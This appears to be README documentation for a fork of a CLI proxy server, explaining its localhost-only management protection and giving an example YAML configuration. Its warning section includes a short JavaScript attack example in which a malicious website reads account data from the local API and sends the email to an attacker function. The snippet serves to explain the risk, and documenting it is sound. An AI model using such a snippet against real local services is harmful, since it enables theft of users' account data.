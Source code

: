 **When disabled:**
- ⚠️ **Security warning logged** at startup
- ❌ Management routes accessible from any IP
- ❌ Vulnerable to drive-by browser attacks
- ❌ Account data can be exfiltrated by malicious websites

**Attack Example (when disabled):**
```javascript
// Malicious website can steal your data
fetch('http://localhost:8317/api/user')
  .then(r => r.json())
  .then(data => sendToAttacker(data.email));
```

**Recommendation:** Keep this feature enabled unless you have a specific need for remote access and understand the security implications.

#### Provider Compatibility

This fork maintains **100% compatibility** with Factory CLI and all upstream features. You can:
- Use **both** Factory CLI and Amp CLI with the same proxy server
- Switch between tools seamlessly
- Load balance across multiple Factory accounts while using Amp OAuth

### Example Configuration File

```yaml
# Server port
port: 8317

# Management API settings
remote-management:
  # Whether to allow remote (non-localhost) management access.
  # When false, only localhost can access management endpoints (a key is still required).
  allow-remote: false

  # Management key. If a plaintext value is provided here, it will be hashed on startup.
  # All management requests (even from localhost) require this key.
  # Leave empty to disable the Management API entirely (404 for all /v0/management routes).
  secret-key: ""

  # Disable the bundled management control panel asset download and HTTP route when true.
  disable-control-panel: false

# Authentication directory (supports ~ for home directory). If you use Windows, please set the directory like this: `C:/cli-proxy-api/`
auth-dir: "~/.cli-proxy-api"

# API keys for authentication
api-keys:
  - "your-api-key-1"
  - "your-api-key-2"

# Enable debug logging
debug: false

# When true, write application logs to rotating files instead of stdout
logging-to-file: true

# When false, disable in-memory usage statistics aggregation
usage-statistics-enabled: true

# Proxy URL. Supports socks5/http/https protocols. Example: socks5://user:pass@192.168.1.1:1080/
proxy-url: ""

# Amp CLI integration (fork-specific feature)
```